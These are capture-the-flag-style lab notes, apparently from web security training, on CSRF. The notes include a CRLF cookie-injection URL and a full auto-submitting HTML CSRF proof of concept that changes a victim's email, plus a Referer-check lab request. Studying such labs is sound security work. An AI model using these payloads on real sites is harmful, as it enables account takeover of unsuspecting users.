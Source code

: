 **Search -> test**

```
GET /?search=test HTTP/1.1
In response:
Set-Cookie: LastSearchTerm=test;
```

`/?search=test%0d%0aSet-Cookie:%20csrf=G2wTaO4fpWuGLL6dlBJvGBtzg7TSeDzk%0d%0aSet-Cookie:%20`

```
POST /my-account/change-email HTTP/1.1
Cookie: csrf=G2wTaO4fpWuGLL6dlBJvGBtzg7TSeDzk; LastSearchTerm=test; session=XcWME6SyAyKgICamvlFjNT5ielLP0h45
...
email=test%40test.com&csrf=G2wTaO4fpWuGLL6dlBJvGBtzg7TSeDzk
```

POST /my-account/change-email -> Engagements Tools -> CSRF PoC Generator -> Include Auto-Submit Script(checked) -> Regenerate -> Replace script part as follows -> Copy HTML

**Exploit Server ->**

```
Body:

  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
      <form action="https://acea1f341e7613f6c0800a9100c9002e.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;test&#46;com" />
        <input type="hidden" name="csrf" value="G2wTaO4fpWuGLL6dlBJvGBtzg7TSeDzk" />
        <input type="submit" value="Submit request" />
      </form>
  	<img src="https://acea1f341e7613f6c0800a9100c9002e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=G2wTaO4fpWuGLL6dlBJvGBtzg7TSeDzk%0d%0aSet-Cookie:%20" onerror="document.forms[0].submit()">
    </body>
  </html>
```

### Lab: CSRF where Referer validation depends on header being present

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

There is weak csrf validation. It checks just legit referer header.

```
POST /my-account/change-email HTTP/1.1
Referer: https://accc1f911e9210ebc0554ed9000a0090.web-security-academy.net/my-account
...
email=test3%40test.com
```
